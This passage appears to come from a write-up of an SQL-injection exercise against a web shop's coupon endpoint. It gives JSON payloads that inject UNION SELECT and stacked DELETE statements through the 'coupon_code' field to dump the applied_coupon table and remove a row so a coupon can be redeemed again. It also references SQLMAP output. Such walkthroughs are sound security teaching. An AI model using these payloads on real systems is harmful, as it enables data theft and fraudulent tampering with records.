 #### Dumping applied coupon table
```
{"coupon_code":"blind' UNION ALL SELECT string_agg(concat(id||','||user_id||','||coupon_code),';') FROM applied_coupon --","amount":125}
```

#### Changing Values in the row UPDATE/DELETE

Now either modfy (UPDATE) the row or delete it.

```
UPDATE applied_coupon SET coupon_code='' WHERE user_id=8
```

DELETE the row with our user_id=8
```
{"coupon_code":"blind';DELETE FROM applied_coupon WHERE user_id=8 --","amount":125}
```

We'll get Server Error but PSQL Query has been executed and we can apply our coupon again.

![picture 20](/assets/images/2a3c640b28c9558db48d01a2715c489b4c7c491fd14acacc7b9454233abb43de.png)  

Output from SQLMAP:

![picture 21](/assets/images/8600e45a5a2da0c071e2129579d65be961deeb81a646aae5b12ef997ac96f111.png)  
